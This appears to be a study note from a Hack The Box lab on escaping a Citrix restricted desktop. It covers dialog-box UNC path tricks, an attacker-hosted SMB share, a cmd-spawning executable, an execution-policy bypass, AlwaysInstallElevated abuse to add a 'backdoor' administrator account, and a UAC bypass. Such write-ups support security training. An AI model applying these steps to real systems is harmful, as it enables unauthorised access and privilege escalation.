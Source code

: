 # Citrix Breakout

most company use Citrix to allow employees to work remotely which block things like (CMD, File Explorer)

**Basic Methodology for break-out:**

1. Gain access to a `Dialog Box` like (Open, Save As)
2. Exploit the Dialog Box to achieve `command execution`. → use it to access C driver `\\127.0.0.1\c$\users\pmorgan`
3. `Escalate privileges` to gain higher levels of access → run exe files `C:\Windows\System32\cmd.exe`

**How To join Citrix environment ?**

sign in http://humongousretail.com/remote/ using RDP and use credential

***

## Bypassing Path Restrictions

Run `Paint` from start menu and click on `File > Open` to open the Dialog Box.

![image.png](<../../../.gitbook/assets/image (4).png>)

With the windows dialog box open for paint, we can enter the [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) path `\\127.0.0.1\c$\users\pmorgan` under the File name field

<figure><img src="../../../.gitbook/assets/image 1 (3).png" alt=""><figcaption></figcaption></figure>

### **Accessing SMB share from restricted environment**

Having restrictions set, File Explorer does not allow direct access to SMB shares on the attacker machine, we use UNC path within the Windows dialog box

**Run smb server on Attack box**

```bash
root@ubuntu:/home/htb-student/Tools# smbserver.py -smb2support share $(pwd)

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Back in the Citrix environment, initiate the "Paint" application via the start menu. Proceed to navigate to the "File" menu and select "Open", thereby prompting the Dialog Box to appear. Within this Windows dialog box associated with Paint, input the UNC path as `\\10.13.38.95\share` into the designated "File name" field. Ensure that the File-Type parameter is configured to "All Files." Upon pressing the "Enter" key, entry into the share is achieved.

<figure><img src="../../../.gitbook/assets/image 2 (2).png" alt=""><figcaption></figcaption></figure>

> open pwn.exe to display CMD

```c
// pwn.exe content
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```

We can then use the obtained cmd access to copy files from SMB share to pmorgans Desktop directory.

```powershell
# transfer from cmd to PS
powershell -ep bypass
```

![](<../../../.gitbook/assets/2025 07 16_01_15_12 Hack_The_Box_ _Academy_ _Brave.png>)

***

### **Modify existing shortcut file**

1. `Right-click` the desired shortcut.
2. Select `Properties`.
3. Within the `Target` field, modify the path to the intended folder for access.&#x20;

<figure><img src="../../../.gitbook/assets/image 3 (2).png" alt=""><figcaption></figcaption></figure>

***

### **Script Execution**

create file with extension `.bat`, `.vbs`, or `.ps`

<figure><img src="../../../.gitbook/assets/image 4 (2).png" alt=""><figcaption></figcaption></figure>

***

## **Escalating Privileges**

For instance, tools like [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) and [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) can also be employed to identify potential security issues and vulnerabilities within the operating system. We can also validate this using the Command Prompt by querying the corresponding registry keys:

```powershell
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1

C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1

```

&#x20;we can make use of PowerUp, using it's `Write-UserAddMSI` function. This function facilitates the creation of an `.msi` file directly on the desktop. &#x20;

```powershell
PS C:\Users\pmorgan\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\pmorgan\Desktop> Write-UserAddMSI
	
Output Path
-----------
UserAdd.msi
```

Now we can execute `UserAdd.msi` and create a new user `backdoor:T3st@123` under Administrators group. Note that giving it a password that doesn’t meet the password complexity criteria will throw an error.

<figure><img src="../../../.gitbook/assets/image 5 (1).png" alt=""><figcaption></figcaption></figure>

***

## **Bypassing UAC**

```powershell
C:\Windows\system32> cd C:\Users\Administrator

Access is denied.
```

```powershell
PS C:\Users\Public> Import-Module .\Bypass-UAC.ps1
PS C:\Users\Public> Bypass-UAC -Method UacMethodSysprep

```
